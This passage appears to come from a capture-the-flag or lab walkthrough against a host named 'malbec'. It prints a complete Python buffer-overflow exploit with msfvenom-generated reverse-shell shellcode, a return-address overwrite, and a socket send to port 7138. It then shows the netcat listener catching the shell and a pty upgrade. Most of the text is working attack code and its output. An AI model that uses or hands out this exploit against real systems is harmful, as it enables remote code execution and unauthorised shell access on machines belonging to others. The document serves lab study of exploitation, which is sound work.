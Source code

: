 ```bash 
buf += b"\x4e\x1c\x9d\x57\x27\x5f\x62\x5f\xfe\xd6\x83\xef\x66"
buf += b"\xb9\x12\x5c\xd4\x3a\x1c\x83\xd7\xbd\x4c\x2b\x86\x92"
buf += b"\x03\xc3\x3e\xc2\xcc\x71\xd6\x95\xf0\x27\x7b\x2f\x17"
buf += b"\x77\x70\xe2\x58"
```
This is our final exploit script with our payload:
```python
#!/usr/bin/python3

import sys
import os
import socket
import struct


if len (sys.argv) != 2:
    print("[!] Insufficient amount of arguments.")
    print(f"[*] Usage: /usr/bin/python3 {sys.argv[0]} <host>")
    sys.exit (1)

host = sys.argv[1]


# msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.118.5 LPORT=2121 -f py -b "\x00" EXITFUNC=thread
# Payload size: 95 bytes

buf =  b""
buf += b"\xbb\xc8\x11\x6c\x9c\xda\xc2\xd9\x74\x24\xf4\x5d\x33"
buf += b"\xc9\xb1\x12\x83\xed\xfc\x31\x5d\x0e\x03\x95\x1f\x8e"
buf += b"\x69\x14\xfb\xb9\x71\x05\xb8\x16\x1c\xab\xb7\x78\x50"
buf += b"\xcd\x0a\xfa\x02\x48\x25\xc4\xe9\xea\x0c\x42\x0b\x82"
buf += b"\x4e\x1c\x9d\x57\x27\x5f\x62\x5f\xfe\xd6\x83\xef\x66"
buf += b"\xb9\x12\x5c\xd4\x3a\x1c\x83\xd7\xbd\x4c\x2b\x86\x92"
buf += b"\x03\xc3\x3e\xc2\xcc\x71\xd6\x95\xf0\x27\x7b\x2f\x17"
buf += b"\x77\x70\xe2\x58"

push_esp_ret = struct.pack("<I", 0x41101503)

buffer = b"A" * 340 + push_esp_ret + b"\x90" * 10 + buf + b"\xff" * 2000

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, 7138))
s.send(buffer)
s.recv(1024)
s.close()

print("[+] Payload sent. Check your listener...")
```
We'll set up a Netcat listener on port 2121 and launch our exploit.
```bash 
┌──(kali㉿kali)-[~]
└─$ python3 exploit.py 192.168.120.149
[+] Payload sent. Check your listener...
```
If all went according to plan, our listener should present us with a shell.
```bash 
┌──(kali㉿kali)-[~]
└─$ nc -lvp 2121               
listening on [any] 2121 ...
192.168.120.149: inverse host lookup failed: Unknown host
connect to [192.168.118.5] from (UNKNOWN) [192.168.120.149] 44478
python -c 'import pty; pty.spawn("/bin/bash")'
carlos@malbec:/home/carlos$ id
```